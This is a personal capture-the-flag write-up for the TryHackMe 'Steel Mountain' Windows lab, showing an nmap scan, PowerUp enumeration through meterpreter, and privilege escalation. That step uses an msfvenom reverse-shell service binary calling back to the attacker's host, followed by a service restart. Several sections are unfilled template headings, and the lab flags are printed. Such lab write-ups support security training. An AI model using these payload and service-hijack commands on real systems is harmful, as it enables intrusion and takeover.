



---
name:
  - "Steel Mountain\r"
Date: 17 April 2024
Platform: windows
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.185.218
---

# Machine 


# Resolution summary
- Text
- Text

## Improved skills
- privilege escalation
- manual exploitations and metasploit
- scanning network

## Used tools
- nmap
- gobuster
- metasploit
- PowerUps
- powershell
- command shell
- 

---

# Information Gathering
Scanned all TCP ports:
```bash
# Nmap 7.94SVN scan initiated Wed Apr 17 16:48:09 2024 as: nmap -sS -p- -A -T4 -oN tcp_scan.md 10.10.185.218
Nmap scan report for 10.10.185.218
Host is up (0.20s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-04-17T21:10:28+00:00; +22s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-04-16T20:14:33
|_Not valid after:  2024-10-16T20:14:33
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-04-17T21:10:20+00:00
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49169/tcp open  msrpc              Microsoft Windows RPC
49170/tcp open  msrpc              Microsoft Windows RPC
Aggressive OS guesses: Microsoft Windows Server 2012 (96%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows Server 2012 R2 Update 1 (96%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (96%), Microsoft Windows Vista SP1 (96%), Microsoft Windows Server 2012 or Server 2012 R2 (95%), Microsoft Windows 7 or Windows Server 2008 R2 (94%), Microsoft Windows Server 2008 SP2 Datacenter Version (93%), Microsoft Windows Server 2008 R2 (93%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 21s, deviation: 0s, median: 21s
| smb2-time: 
|   date: 2024-04-17T21:10:22
|_  start_date: 2024-04-17T20:14:24
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:65:f4:3b:9c:27 (unknown)
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   208.07 ms 10.8.0.1
2   208.04 ms 10.10.185.218

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 17 17:10:07 2024 -- 1 IP address (1 host up) scanned in 1319.00 seconds

```

---

# Enumeration
## Port 80 - HTTP (Apache)

## port 8080


---
# Exploitation
## Name of the technique





---


---

# Privilege Escalation
## Local Enumeration
```
meterpreter > upload /home/kali/30-days/Day_5/PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```


## Escalation phase
Let's create our  malicious binary that will help us get higher privileged reverse shell using *msfvenom*: 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.45.125 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCervice.exe
```

```
upload /home/kali/30-days/Day_5/ASCService.exe
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
```


---
# Trophy & Loot
user.txt
```
b04763b6fcf51fcd7c13abc7db4fd365
```

root.txt
```
9af5f314f57607c00fd09803a587db80
```